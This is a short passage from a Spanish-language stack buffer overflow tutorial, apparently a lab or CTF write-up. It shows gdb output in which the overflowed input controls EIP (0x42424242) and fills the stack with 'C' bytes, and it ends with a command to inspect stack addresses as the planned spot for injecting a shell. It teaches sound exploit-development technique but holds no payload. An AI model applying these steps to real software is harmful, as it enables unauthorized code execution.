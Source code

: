 ```

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
───────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]────────────────────────────────────────────────────
 EAX  0x189
 EBX  0x41414141 ('AAAA')
 ECX  0
 EDX  0
 EDI  0xf7ffcb60 (_rtld_global_ro) ◂— 0
 ESI  0x8330
 EBP  0x41414141 ('AAAA')
 ESP  0xffffd2e0 ◂— 0x43434343 ('CCCC')
 EIP  0x42424242 ('BBBB')
─────────────────────────────────────────────────────────────[ DISASM / i386 / set emulate on ]──────────────────────────────────────────────────────────────
Invalid address 0x42424242










──────────────────────────────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────────────────────────────
00:0000│ esp 0xffffd2e0 ◂— 0x43434343 ('CCCC')
... ↓        7 skipped
────────────────────────────────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────────────────────────────────
 ► 0 0x42424242 None
   1 0x43434343 None
   2 0x43434343 None
   3 0x43434343 None
   4 0x43434343 None
   5 0x43434343 None
   6 0x43434343 None
   7 0x43434343 None
────────────────────────────────────────────────────────────────────────────
```

Por lo que vemos las `C` se estan poniendo bien, por lo que ahora vamos a ver cuales son las direcciones de memoria en las cuales se estan inyectando esas `C` para coger una la cual en vez de inyectarle una `C` le inyectaremos una `shell`.

```gdb
x/300wx $esp
```
